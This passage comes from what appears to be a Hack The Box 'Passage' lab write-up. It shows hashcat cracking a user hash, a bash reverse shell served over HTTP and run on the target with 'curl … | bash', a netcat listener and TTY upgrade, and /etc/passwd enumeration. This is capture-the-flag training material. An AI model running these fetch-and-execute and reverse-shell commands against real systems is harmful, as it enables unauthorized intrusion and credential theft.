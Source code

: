 ```bash
hashcat loot/80_users.hash /opt/wordlists/rockyou.txt -m 1400
```

There's one password found

```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage]
└─$ hashcat loot/80_users.hash /opt/wordlists/rockyou.txt -m 1400 --show
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
```

#### Get a shell

Host reverse shell script

```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage]
└─$ mkdir -p www && cd www && echo "/bin/bash -c 'bash -i >& /dev/tcp/$(pt get lhost)/1111 0>&1'" > index.html && fuser -k 80/tcp 2>/dev/null; python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
command > curl 10.10.14.9 | bash
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage/exploit]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.9] from (UNKNOWN) [10.129.19.253] 42346
bash: cannot set terminal process group (1703): Inappropriate ioctl for device
bash: no job control in this shell
www-data@passage:/var/www/html/CuteNews/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<tml/CuteNews/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@passage:/var/www/html/CuteNews/uploads$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Passage/exploit]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
www-data@passage:/var/www/html/CuteNews/uploads$ stty rows 50 columns 209
www-data@passage:/var/www/html/CuteNews/uploads$
```

## From www-data to paul


### Password spray

```bash
www-data@passage:/var/www/html/CuteNews/uploads$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
```
